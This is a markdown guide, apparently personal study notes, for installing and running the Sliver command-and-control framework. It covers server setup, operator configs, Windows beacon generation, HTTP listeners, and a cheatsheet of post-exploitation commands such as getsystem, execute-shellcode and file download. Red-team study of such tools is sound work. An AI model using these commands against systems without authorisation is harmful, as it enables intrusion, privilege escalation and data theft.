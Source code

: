 
## Dealing with Errors
I ran into a lot. Common issues included:

Outdated sliver binaries
Pre-existing ~/.sliver directory
No mingw compiler
## Installing Sliver

```bash

# Remove existing sliver stuff, run as sudo
rm /bin/sliver
rm /bin/sliver-server
rm -rf /root/.sliver
rm -rf ~/.sliver

# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Windows C Compiler
sudo apt install mingw-w64

# Run as normal
# Unpack assets, as user
sliver-server unpack --force




```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg

# And boot sliver client
sliver


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > generate beacon help
sliver > generate beacon --http 127.0.0.1 --name httpbeacon443 --os windows
```

## Setting up a Listener
```bash
sliver > http --lport 80
```

## Using the Beacon

```bash
# List beacons
sliver > beacons
# Load an active beacon
sliver > use c44362b7

# List common commands
sliver > help
```
## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |